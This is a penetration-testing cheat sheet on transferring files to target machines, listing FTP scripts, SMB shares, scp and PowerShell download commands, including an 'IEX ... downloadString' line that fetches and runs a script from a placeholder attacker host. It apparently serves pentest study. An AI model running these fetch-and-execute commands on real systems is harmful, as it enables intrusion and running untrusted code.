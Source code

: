# File Transfer

15 Ways to transfer a file
https://blog.netspi.com/15-ways-to-download-a-file/#perl

### FTP
/etc/init.d/pure-ftpd restart

Windows
echo "open <IP>">ftp.txt  
echo "offsec">>ftp.txt  
echo "offsec">>ftp.txt  
echo "bin">>ftp.txt  
echo "get file.exe">>ftp.txt  
echo "bye">>ftp.txt  

ftp -s ftp.txt  

Linux
ftp -4 -d -v ftp://offsec:offsec@<IP>//linuxprichecker.py < ftp upload one liner linux

### Powershell
powershell.exe  (New-Object System.Net.WebClient).DownloadFile("https://example.com/archive.zip", "C:\Windows\Temp\archive.zip") 

powershell.exe "IEX(New-Object Net.WebClient).downloadString('http://<IP>/<script>')"

powershell full path:
C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe
C:\Windows\Sysnative\WindowsPowerShell\v1.0\powershell.exe


### Smbsever
impacket-smbserver <share name> <path>

net view \\\\\<ip>

### SCP
After login through ssh
scp <fileToUpload> user@remote:/path

